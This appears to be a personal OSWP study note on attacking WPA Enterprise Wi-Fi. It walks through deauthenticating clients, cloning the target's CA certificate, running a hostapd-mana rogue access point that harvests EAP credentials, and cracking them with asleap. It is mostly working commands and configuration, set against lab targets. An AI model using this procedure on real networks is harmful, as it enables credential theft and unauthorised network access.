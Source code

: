 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/g-enterprise-cracking/","updated":"2024-01-05T11:37:22.106+01:00"}
---
```


-------------
### Theory
- Authentication is done using a RADIUS server
- EAP frames are relayed from AP to RADIUS, if successful a PMK is used in a 4-way handshake
- Authentication methods:
	- EAP-TLS
		- One of the most secure
		- Certificates on both server and client side
	- EAP-TTLS
		- Does not necessarily need client certificates
		- Creates a tunnel to exchange credentials using different inner/phase2 methods
			- Challenge-Handshake Authentication Protocol (CHAP)
			- Authentication Protocol (PAP)
			- Microsoft CHAP (MS-CHAP)
			- MS-CHAPv2
	- PEAP
		- TLS tunnel with most commonly MS-CHAPv2
- AUTH: MGT means WPA Enterprise

### Walkthrough:
1. Generate/validate certificate:
```
openssl x509 -in <name.crt/pem> -noout -enddate
```
2. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
3. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
4. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
5. Open capture in Wireshark and filter for:
```
tls.handshake.certificate
```
6. _Extensible Authentication Protocol_ > _Transport Layer Security_
7. Find the certificates and right-click for "Export Packet Bytes"
8. Convert the .der into a .crt:
```
openssl x509 -inform der -in <file.der> -outform pem -out <file.crt>
```
9. Edit [certificate_authority] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/ca.cnf
```
Example:
```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```
10. Edit [server] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/server.cnf
```
Example:
```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```
11. Delete the diffie-hellman file and any previous certs and make the cert:
```
make destroycerts
sudo rm /etc/freeradius/3.0/certs/dh
make
```
12. Generate the mana.conf file and set SSID:
```
# SSID of the AP
ssid=<ssid-name>

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
13. Create the EAP user file referenced in the conf-file:
```
sudo nano /etc/hostapd-mana/mana.eap_user
```
Paste:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
14. Start hostapd-mana with the conf-file:
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
15. Catch credentials in: /tmp/hostapd.credout
16. Crack with asleap:
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```